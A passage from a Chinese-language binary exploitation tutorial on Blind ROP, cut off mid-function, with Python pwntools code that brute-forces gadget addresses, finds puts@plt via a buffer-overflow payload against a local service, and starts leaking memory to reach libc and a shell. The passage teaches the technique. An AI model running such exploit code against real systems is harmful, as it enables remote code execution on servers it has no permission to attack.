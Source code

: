 ```python
##get_stop_addr(length)
stop_gadget = 0x4006b6
addr = 0x400740
while 1:
    print hex(addr)
    if get_brop_gadget(length, stop_gadget, addr):
        print 'possible brop gadget: 0x%x' % addr
        if check_brop_gadget(length, addr):
            print 'success brop gadget: 0x%x' % addr
            break
    addr += 1
```

这样，我们基本得到了brop的gadgets地址0x4007ba

#### 确定puts@plt地址

根据上面，所说我们可以构造如下payload来进行获取

```text
payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)
```

具体函数如下

```python
def get_puts_addr(length, rdi_ret, stop_gadget):
    addr = 0x400000
    while 1:
        print hex(addr)
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'A' * length + p64(rdi_ret) + p64(0x400000) + p64(
            addr) + p64(stop_gadget)
        sh.sendline(payload)
        try:
            content = sh.recv()
            if content.startswith('\x7fELF'):
                print 'find puts@plt addr: 0x%x' % addr
                return addr
            sh.close()
            addr += 1
        except Exception:
            sh.close()
            addr += 1
```

最后根据plt的结构，选择0x400560作为puts@plt

#### 泄露puts@got地址

在我们可以调用puts函数后，我们可以泄露puts函数的地址，进而获取libc版本，从而获取相关的system函数地址与/bin/sh地址，从而获取shell。我们从0x400000开始泄露0x1000个字节，这已经足够包含程序的plt部分了。代码如下

```python
def leak(length, rdi_ret, puts_plt, leak_addr, stop_gadget):
    sh = remote('127.0.0.1', 9999)
    payload = 'a' * length + p64(rdi_ret) + p64(leak_addr) + p64(
        puts_plt) + p64(stop_gadget)
    sh.recvuntil('password?\n')
    sh.sendline(payload)
    try:
        data = sh.recv()
        sh.close()
        try:
            data = data[:data.index("\nWelCome")]
        except Exception:
            data = data
```